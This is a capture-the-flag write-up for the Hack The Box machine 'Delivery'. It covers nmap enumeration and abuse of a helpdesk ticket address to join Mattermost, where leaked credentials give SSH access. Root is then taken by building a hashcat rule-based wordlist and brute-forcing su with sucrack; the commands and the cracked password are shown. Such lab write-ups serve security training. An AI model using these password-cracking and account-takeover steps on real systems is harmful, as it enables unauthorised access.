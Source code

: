# Delivery

---

## Enumeration

- nmap:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c40fa859b01acac0ebc0c19518aee27 (RSA)
|   256 5a0cc03b9b76552e6ec4f4b95d761709 (ECDSA)
|_  256 b79df7489da2f27630fd42d3353a808c (ED25519)
80/tcp   open  http    nginx 1.14.2
|_http-title: Welcome
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.2
8065/tcp open  unknown
```

- The website reveals its domain name and `helpdesk` subdomain
- Submitting a ticket:

```
test, 

You may check the status of your ticket, by navigating to the Check Status page using ticket id: 1387928.

If you want to add more information to your ticket, just email 1387928@delivery.htb.

Thanks,

Support Team
```

- The way this works it looks like, is the ticket can be updated by emailing `ticketID@delivery.htb` which means it's a valid email
- I used this email to register at mattermost on port 8065 and I got the verification message on the ticket page!
- Found creds message:

```
	
root
9:29 AM
@developers Please update theme to the OSTicket before we go live.  Credentials to the server are maildeliverer:Youve_G0t_Mail! 

Also please create a program to help us stop re-using the same passwords everywhere.... Especially those that are a variant of "PleaseSubscribe!"

	
root
10:58 AM



PleaseSubscribe! may not be in RockYou but if any hacker manages to get our hashes, they can use hashcat rules to easily crack all variations of common words or phrases.
```

- Used these creds `maildeliverer:Youve_G0t_Mail!` to login into the server via ssh and it worked, got user.txt

---

## Privilege Escalation

- The second message in mattermost gave a hint of a password that's `PleaseSubscribe!` variant, so I used hashcat to generate a wordlist of this password's variants that might be useful later on:

```zsh
┌──(kali㉿kali)-[~/CTF/HTB-CTF/Machines/Delivery]
└─$ nano wordlist.txt      

┌──(kali㉿kali)-[~/CTF/HTB-CTF/Machines/Delivery]
└─$ cat wordlist.txt 
PleaseSubscribe!

┌──(kali㉿kali)-[~/CTF/HTB-CTF/Machines/Delivery]
└─$ hashcat --stdout -r /usr/share/hashcat/rules/best64.rule wordlist.txt > tmp
                                                                                                                                                             
┌──(kali㉿kali)-[~/CTF/HTB-CTF/Machines/Delivery]
└─$ cat tmp > wordlist.txt 
                                                                                                                                                             
┌──(kali㉿kali)-[~/CTF/HTB-CTF/Machines/Delivery]
└─$ hashcat --force --stdout -r /usr/share/hashcat/rules/toggles5.rule wordlist.txt > tmp
                                                                                                                                                             
┌──(kali㉿kali)-[~/CTF/HTB-CTF/Machines/Delivery]
└─$ cat tmp > wordlist.txt 
```

- Used `sucrack` to crack root or mattermost account password and I got root password

```
     time elapsed:    00:00:00
   time remaining:    00:00:00
         progress:    81.39% [***************************************************************...............]
     user account:    root

 __dictionary:_______________________
        file size:    1177
       bytes read:    958
       words read:    60
 word buffer size:    40
    time/word add:    0.0000
         rewriter:    disabled

 __worker:___________________________
           worker:    20
         attempts:    0
  attempts/worker:    0
  seconds/attempt:    -nan
     attempts/sec:    -nan
  overhead/worker:    -nan

password is: PleaseSubscribe!21
```

---

